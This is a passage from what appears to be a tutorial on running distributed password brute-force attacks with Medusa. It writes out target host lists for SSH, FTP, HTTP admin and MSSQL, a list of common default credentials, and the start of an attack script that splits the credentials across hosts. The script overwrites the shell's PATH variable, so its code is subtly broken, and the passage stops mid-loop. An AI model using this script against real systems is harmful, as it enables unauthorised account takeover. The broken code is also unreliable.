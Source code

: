 This example demonstrates using Medusa for distributed password attacks across multiple hosts:

#### 1. Setting Up Host Groups

```bash
# Create a host file with authentication information
cat > hosts.txt << EOF
192.168.1.1/ssh
192.168.1.2/ftp
192.168.1.3/http/admin/
192.168.1.4/mssql
EOF
```

#### 2. Configure Authentication Combos

```bash
# Create a combo file with username:password pairs
cat > combos.txt << EOF
admin:password123
admin:admin123
administrator:password
root:toor
user:user123
EOF
```

#### 3. Create a Multi-Protocol Attack Script

```bash
#!/bin/bash
# distributed_attack.sh - Multi-protocol distributed brute force

HOSTS_FILE=$1
COMBO_FILE=$2
THREADS=$3
MAX_HOSTS=$4

# Set defaults if not provided
[ -z "$THREADS" ] && THREADS=5
[ -z "$MAX_HOSTS" ] && MAX_HOSTS=3

if [ -z "$HOSTS_FILE" ] || [ -z "$COMBO_FILE" ]; then
    echo "Usage: $0 <hosts_file> <combo_file> [threads] [max_hosts]"
    exit 1
fi

echo "[+] Starting distributed attack with $THREADS threads per host, maximum $MAX_HOSTS hosts..."

# Split combos into chunks for distribution
TOTAL_COMBOS=$(wc -l < $COMBO_FILE)
CHUNK_SIZE=$(( TOTAL_COMBOS / MAX_HOSTS + 1 ))
split -l $CHUNK_SIZE $COMBO_FILE combo_chunk_

# Process each host
cat $HOSTS_FILE | while read line; do
    # Parse host entry
    HOST=$(echo $line | cut -d '/' -f 1)
    MODULE=$(echo $line | cut -d '/' -f 2)
    PATH=$(echo $line | cut -d '/' -f 3-)
    
    # Select a combo chunk
    CHUNK=$(ls combo_chunk_* | head -n 1)
    
    if [ -z "$CHUNK" ]; then
        echo "[-] No more combo chunks available."
```